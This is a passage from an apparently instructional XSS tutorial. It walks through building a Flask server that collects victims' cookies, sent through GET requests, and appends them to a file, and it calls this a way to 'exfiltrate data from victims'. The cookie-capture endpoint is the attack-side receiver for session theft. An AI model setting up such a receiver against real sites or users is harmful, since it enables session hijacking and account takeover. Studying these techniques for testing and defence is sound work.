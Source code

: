 ![](/img/XSSBasic/capturedSessionStorage.PNG)

<h2>Setting up our data capture server</h2>
Now that we are able to exfiltrate data from victims and also are able to set storage items on the victim. Our next step would be to have a server setup to handle our incoming GET/POST requests. This helps us greatly while exfiltrating data as well!

For this we will use flask python API. For a quick start lets quickly check the quickstart guide: https://flask.palletsprojects.com/en/2.0.x/quickstart/
<br>
flaskServer.py:
```
from flask import Flask

app = Flask(__name__)

@app.route("/")
def hello_world():
    return "<p>Hello, World!</p>"
```
<br>
start the basic server with:
```
export FLASK_APP=flaskServer.py
flask run
```
<br>
It responds back with hello world so it definitely works. TIme to customize this server! First let's grab the incomming cookie from HTTP GET requests. For this we need to dig a little deeper in the quickstart page. Here we can find how to get data from requests. Further, we can also check how to write to a file: https://www.w3schools.com/python/python_file_write.asp
<br>

```
from flask import Flask
from flask import request

app = Flask(__name__)

@app.route("/saveGetCookie", methods=['GET'])
def saveGetCookie():
    cookie = request.args.get("a")
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.close()
```
As show above we setup a small server. Let me explain what is happening here. We imported requests from flask so we can grab the incoming data.
Then we added a route named saveGetCookie and a method GET. This is so everything to our page /saveGetCookie will run the function below.
In the saveGetCookie function first line we will copy the argument's value a in the cookie variable. This means if a request looks like this "http://127.0.0.1:5000/saveGetCookie?a=thing" then the thing will go into the cookie variable.
Then we open a file called savedCookies and write the cookie inside it.